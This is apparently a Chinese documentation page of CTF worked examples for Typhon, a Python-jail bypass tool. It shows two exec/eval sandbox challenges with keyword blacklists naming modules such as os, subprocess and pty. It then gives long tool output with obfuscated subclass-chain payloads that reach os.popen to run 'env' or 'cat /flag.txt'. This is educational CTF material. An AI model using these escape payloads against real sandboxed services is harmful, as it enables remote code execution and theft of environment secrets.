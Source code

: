 EXAMPLE 示例
============

此页用于提供关于 ``Typhon`` 的一些实战例题。

PwnyCTF-Pyjail 2
-------------------

题目链接： https://ctf.sigpwny.com/challenges#Vault/Pyjail%202-633

.. code-block:: python
    :linenos:
    :emphasize-lines: 3,26

    #!/usr/bin/env python3

    #Flag is at /flag.txt

    def is_bad(user_input):
        banned = '"*\'`x'

        for c in banned:
            if c in user_input:
                return True
        
        return False


    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            exec(user_input)
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')


    if __name__ == '__main__':
        main()

flag位于 ``/flag.txt`` 文件中。

注意到第25行存在执行函数： ``exec(user_input)``。同时，此题目的WAF有且仅有 ``is_bad()`` 函数，其功能为检测用户输入是否包含 ``"``、 ``'``、 ``*``、  `````、 ``x``。

此处我们将执行行删去，换为对应的命令。

我们将 ``main()`` 函数改为：

.. code-block:: python
    :linenos:
    :emphasize-lines: 12,13

    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            import Typhon
            Typhon.bypassRCE('cat /flag.txt', banned_chr = '"*\'`x')
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')

运行，随意输入使得控制流进入 ``Typhon.bypassRCE()`` 函数，即可得到flag（在 ``input()`` 时直接回车即可）。

.. code-block::
    :emphasize-lines: 34

    You wake up in the jail gym. Your head is still sore from the bonk.
    What do you have to say for yourself?

        .-')          _                 Typhon: a pyjail bypassing tool
       (`_^ (    .----`/
        ` )  \_/`   __/     __,    [Typhon Version]: v1.0.10
        __{   |`  __/      /_/     [Python Version]: v3.13.4
       / _{    \__/ '--.  //       [Github]: https://github.com/Team-intN18-SoybeanSeclab/Typhon
       \_> \_\  >__/    \((        [Author]: LamentXU <lamentxu644@gmail.com>
            _/ /` _\_   |))

    WARNING [!] banned_chr should be a list, converting to list for compatibility.
    WARNING [!] local scope not specified, using the global scope.
    INFO [*] 7 paths found to directly getshell. Try to bypass blacklist with them. Please be paitent.
    Bypassing (7/7): [===============================================================================>] 100.0%
    INFO [+] directly getshell success. 49 payload(s) in total.
    INFO [+] You now can use this payload to getshell directly with proper input.




    -----------Progress-----------


    directly input bypass(49 payloads found): help()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    help()


    +++++++++++Jail broken+++++++++++

此时，我们再远程环境中输入 ``help()`` 再利用 `相应的技术 <https://typhonbreaker.readthedocs.io/zh-cn/latest/FAQ.html#help-rce>`_ 进行绕过即可 。

Typhon-Sample Pyjail 1 
----------------------

本题目由此文档编写。

.. code-block:: python
    :linenos:
    :emphasize-lines: 1,24,37

        # flag in env
        WELCOME = '''
        _     ______      _                              _       _ _ 
        | |   |  ____|    (_)                            | |     (_) |
        | |__ | |__   __ _ _ _ __  _ __   ___ _ __       | | __ _ _| |
        | '_ \|  __| / _` | | '_ \| '_ \ / _ \ '__|  _   | |/ _` | | |·
        | |_) | |___| (_| | | | | | | | |  __/ |    | |__| | (_| | | |
        |_.__/|______\__, |_|_| |_|_| |_|\___|_|     \____/ \__,_|_|_|
                    __/ |                                           
                    |___/                                            
        '''
        import string

        print(WELCOME)

        print("Welcome to the python jail")
        print("Let's have an beginner jail of calc")
        print("Enter your expression and I will evaluate it for you.")
        if __name__ == '__main__':
            while True:
                try:
                    suc = True
                    cmd = input("Enter command: ")
                    blacklist = ['__loader__','__import__','os','\\x','+','join', '"', "'",'2','3','4','5','6','7','8','9','subprocess','[',']','sys',
                                        'pty','uuid','future','codecs','io','multi']
                    for i in blacklist:
                        if i in cmd:
                            print("Command not allowed")
                            suc = False
                            break
                    for i in cmd:
                        if i not in string.printable:
                            print("Command not allowed")
                            suc = False
                            break
                    if suc:
                        print(eval(cmd, {'__builtins__':None, 'st':str}))
                except KeyboardInterrupt:
                    break
                except Exception as e:
                    print(f'e ==> {e}')
                    pass

可以看到该题目有如下限制：
- 禁止使用 ``__loader__``、 ``__import__``、 ``os``、 ``\\x``、 ``+``、 ``join``、 ``"``、 ``'``、 ``2``、 ``3``、 ``4``、 ``5``、 ``6``、 ``7``、 ``8``、 ``9``、 ``subprocess``、 ``[``、 ``]``、 ``sys``、 ``pty``、 ``uuid``、 ``future``、 ``codecs``、 ``io``、 ``multi`` 等关键字。
- 禁止使用除 ``printable`` 字符集以外的字符。
- 命名空间为 ``{'__builtins__':None, 'st':str}`` 函数。

我们可以利用 ``Typhon`` 库中的 ``bypassRCE()`` 函数绕过限制。由于flag在环境中，我们执行 ``env`` 即可得到flag。

.. code-block:: python
    :linenos:

        import Typhon
        Typhon.bypassRCE(
            'env',
            local_scope = {'__builtins__':None, 'st':str},
            banned_chr = ['__loader__','__import__','os','\\x','+','join', '"', "'",'2','3','4','5','6','7','8','9','subprocess','[',']','sys',
                                        'pty','uuid','future','codecs','io','multi']
            )

.. tip::

    此处由于已经指定了命名空间，我们可以不在源代码上做修改，直接另起一个脚本调用 ``Typhon.bypassRCE()`` 函数。但当题目没有指定命名空间时（即没有 ``local_scope`` 参数时），我们需要在源代码中调用 ``Typhon.bypassRCE()`` 函数。
    假如你不确定的话，也可以只在源代码中调用。

执行上述代码，即可得到payload。

.. note:: 

    对于复杂度较高的题目，可能需要等候较长时间。

.. code-block::
    :emphasize-lines: 125

        .-')          _                 Typhon: a pyjail bypassing tool
       (`_^ (    .----`/
        ` )  \_/`   __/     __,    [Typhon Version]: v1.0.10
        __{   |`  __/      /_/     [Python Version]: v3.9.0
       / _{    \__/ '--.  //       [Github]: https://github.com/Team-intN18-SoybeanSeclab/Typhon
       \_> \_\  >__/    \((        [Author]: LamentXU <lamentxu644@gmail.com>
            _/ /` _\_   |))

    INFO [-] no paths found to directly getshell.
    INFO [*] Try to get string literals from docstrings.
    Bypassing (421/421): [===============================================================================>] 100.0%
    INFO [*] Try to get string literals from __name__.
    Bypassing (3/3): [===============================================================================>] 100.0%
    INFO [*] string literals found: {'s': 'st.__doc__.__getitem__(0)', 't': 'st.__doc__.__getitem__(1)', 'r': 'st.__doc__.__getitem__(0b10)', 'o': 'st.__doc__.__getitem__(0b100)', 'b': 'st.__doc__.__getitem__(0b101)', 'j': 'st.__doc__.__getitem__(0b110)', 'e': 'st.__doc__.__getitem__(0b111)', 'c': 'st.__doc__.__getitem__(0b1000)', 'y': 'st.__doc__.__getitem__(0b11011)', 'u': 'st.__doc__.__getitem__(0b100100)', 'f': 'st.__doc__.__getitem__(0b100101)', 'n': 'st.__doc__.__getitem__(0b101101)', 'd': 'st.__doc__.__getitem__(0b110000)', 'i': 'st.__doc__.__getitem__(0b110001)', 'g': 'st.__doc__.__getitem__(0b110011)', 'C': 'st.__doc__.__getitem__(0b1001001)', 'a': 'st.__doc__.__getitem__(0b1001100)', 'w': 'st.__doc__.__getitem__(0b1010100)', 'm': 'st.__doc__.__getitem__(0b1100111)', 'h': 'st.__doc__.__getitem__(0b1101010)', 'v': 'st.__doc__.__getitem__(111)', 'I': 'st.__doc__.__getitem__(0b1111011)', 'p': 'st.__doc__.__getitem__(0b10010101)', 'x': 'st.__doc__.__getitem__(0b10110101)', 'l': 'st.__doc__.__getitem__(0b11010000)', 'O': 'st.__doc__.__getitem__(0b100001010)'}
    INFO [*] int literals found: {'0': '0', '1': '1'}
    INFO [-] no paths found to directly getshell.
    INFO [*] 3 paths found to obtain generator. Try to bypass blacklist with them. Please be paitent.
    Bypassing (3/3): [===============================================================================>] 100.0%
    INFO [+] Success. 3 payload(s) in total.
    INFO [*] Using (a for a in ()).gi_frame as payload of generator
    INFO [*] 2 paths found to obtain type. Try to bypass blacklist with them. Please be paitent.
    Bypassing (2/2): [===============================================================================>] 100.0%
    INFO [+] Success. 2 payload(s) in total.
    INFO [*] Using st.__class__ as payload of type
    INFO [*] 6 paths found to obtain object. Try to bypass blacklist with them. Please be paitent.
    Bypassing (6/6): [===============================================================================>] 100.0%
    INFO [+] Success. 5 payload(s) in total.
    INFO [*] Using ().__class__.__mro__.__getitem__(1) as payload of object
    INFO [*] 3 paths found to obtain bytes. Try to bypass blacklist with them. Please be paitent.
    Bypassing (3/3): [===============================================================================>] 100.0%
    INFO [+] Success. 2 payload(s) in total.
    INFO [*] Using st.__class__(st().encode()) as payload of bytes
    INFO [*] __builtins__ in this namespace is deleted, no way to restore it.
    INFO [*] try to find __builtins__ in other namespaces.
    INFO [*] 5 paths found to restore builtins in other namespaces. Try to bypass blacklist with them. Please be paitent.
    Bypassing (5/5): [===============================================================================>] 100.0%
    INFO [-] no way to find a bypass method to restore builtins in other namespaces.
    INFO [*] Trying to find inheritance chains.
    Bypassing (206/206): [===============================================================================>] 100.0%
    INFO [+] Found inheritance chain: ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0b101).__add__(st.__doc__.__getitem__(0b100100)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0))) -> builtins
    INFO [+] Found inheritance chain: ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))) -> sys
    INFO [*] 2 paths found to obtain import. Try to bypass blacklist with them. Please be paitent.
    Bypassing (2/2): [===============================================================================>] 100.0%
    INFO [-] no way to bypass blacklist to obtain import.
    INFO [*] 2 paths found to obtain load_module. Try to bypass blacklist with them. Please be paitent.
    Bypassing (2/2): [===============================================================================>] 100.0%
    INFO [-] no way to bypass blacklist to obtain load_module.
    INFO [-] no paths found to obtain modules.
    INFO [*] 4 paths found to obtain import. Try to bypass blacklist with them. Please be paitent.
    Bypassing (4/4): [===============================================================================>] 100.0%
    INFO [-] no way to bypass blacklist to obtain import.
    INFO [*] 4 paths found to obtain load_module. Try to bypass blacklist with them. Please be paitent.
    Bypassing (4/4): [===============================================================================>] 100.0%
    INFO [-] no way to bypass blacklist to obtain load_module.
    INFO [*] 1 paths found to obtain modules. Try to bypass blacklist with them. Please be paitent.
    Bypassing (1/1): [===============================================================================>] 100.0%
    INFO [+] Success. 1 payload(s) in total.
    INFO [*] Using ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules as payload of modules
    INFO [*] try to import modules with MODULES path.
    Bypassing (20/20): [===============================================================================>] 100.0%
    INFO [*] modules we have found:
    INFO {'builtins': <module 'builtins' (built-in)>, 'sys': <module 'sys' (built-in)>, 'os': <module 'os' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\os.py'>, 'codecs': <module 'codecs' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\codecs.py'>, 'warnings': <module 'warnings' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\warnings.py'>, 'importlib': <module 'importlib' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\importlib\\__init__.py'>, 'reprlib': <module 'reprlib' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\reprlib.py'>, 'linecache': <module 'linecache' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\linecache.py'>, 'io': <module 'io' from 'C:\\Users\\admin\\AppData\\Local\\Programs\\Python\\Python39\\lib\\io.py'>}
    INFO [-] no paths found to obtain exec.
    INFO [+] Using env as the command to execute.
    INFO [*] 10 paths found to obtain __import__2RCE. Try to bypass blacklist with them. Please be paitent.
    Bypassing (10/10): [===============================================================================>] 100.0%
    INFO [+] Success. 1 payload(s) in total.
    INFO [*] Using ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read() as payload of __import__2RCE


    WARNING [!] index 0 of st.__doc__[0] must match the string literal s.
    WARNING [!] index 4 of st.__doc__[4] must match the string literal o.
    WARNING [!] index 7 of st.__doc__[7] must match the string literal e.
    WARNING [!] index 27 of st.__doc__[27] must match the string literal y.
    WARNING [!] index 45 of st.__doc__[45] must match the string literal n.
    WARNING [!] index 111 of st.__doc__[111] must match the string literal v.
    WARNING [!] 110 is the index of StreamReaderWriter, path to sys must fit in index of StreamReaderWriter.
    WARNING [!] index 1 of st.__doc__[1] must match the string literal t.
    WARNING [!] index 5 of st.__doc__[5] must match the string literal b.
    WARNING [!] index 36 of st.__doc__[36] must match the string literal u.
    WARNING [!] index 49 of st.__doc__[49] must match the string literal i.
    WARNING [!] index 208 of st.__doc__[208] must match the string literal l.
    WARNING [!] 110 is the index of StreamReaderWriter, path to builtins must fit in index of StreamReaderWriter.
    WARNING [!] index 8 of st.__doc__[8] must match the string literal c.
    WARNING [!] index 48 of st.__doc__[48] must match the string literal d.
    WARNING [!] index 2 of st.__doc__[2] must match the string literal r.
    WARNING [!] index 51 of st.__doc__[51] must match the string literal g.
    WARNING [!] index 76 of st.__doc__[76] must match the string literal a.
    WARNING [!] index 84 of st.__doc__[84] must match the string literal w.
    WARNING [!] index 103 of st.__doc__[103] must match the string literal m.
    WARNING [!] index 149 of st.__doc__[149] must match the string literal p.
    WARNING [!] index 106 of st.__doc__[106] must match the string literal h.


    -----------Progress-----------


    directly input bypass(0 payload found): None
    generator(3 payloads found): (a for a in ()).gi_frame
    type(2 payloads found): st.__class__
    object(5 payloads found): ().__class__.__mro__.__getitem__(1)
    bytes(2 payloads found): st.__class__(st().encode())
    import(0 payload found): None
    load_module(0 payload found): None
    modules(1 payload found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules
    builtins(3 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0b101).__add__(st.__doc__.__getitem__(0b100100)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0)))
    sys(3 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0)))
    os(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0)))
    codecs(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b1000).__add__(st.__doc__.__getitem__(0b100)).__add__(st.__doc__.__getitem__(0b110000)).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0)))
    warnings(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b1010100).__add__(st.__doc__.__getitem__(0b1001100)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b110011)).__add__(st.__doc__.__getitem__(0)))
    importlib(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b110001).__add__(st.__doc__.__getitem__(0b1100111)).__add__(st.__doc__.__getitem__(0b10010101)).__add__(st.__doc__.__getitem__(0b100)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101)))
    reprlib(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b10).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b10010101)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101)))
    linecache(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b11010000).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0b1001100)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0b1101010)).__add__(st.__doc__.__getitem__(0b111)))
    io(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b110001).__add__(st.__doc__.__getitem__(0b100)))
    exec(0 payload found): None
    __import__2RCE(1 payload found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()
    Reminder: index 0 of st.__doc__[0] must match the string literal s.
    Reminder: index 4 of st.__doc__[4] must match the string literal o.
    Reminder: index 7 of st.__doc__[7] must match the string literal e.
    Reminder: index 27 of st.__doc__[27] must match the string literal y.
    Reminder: index 45 of st.__doc__[45] must match the string literal n.
    Reminder: index 111 of st.__doc__[111] must match the string literal v.
    Reminder: 110 is the index of StreamReaderWriter, path to sys must fit in index of StreamReaderWriter


    +++++++++++Jail broken+++++++++++

根据 ``reminder`` 信息稍微调整payload即可得到flag。
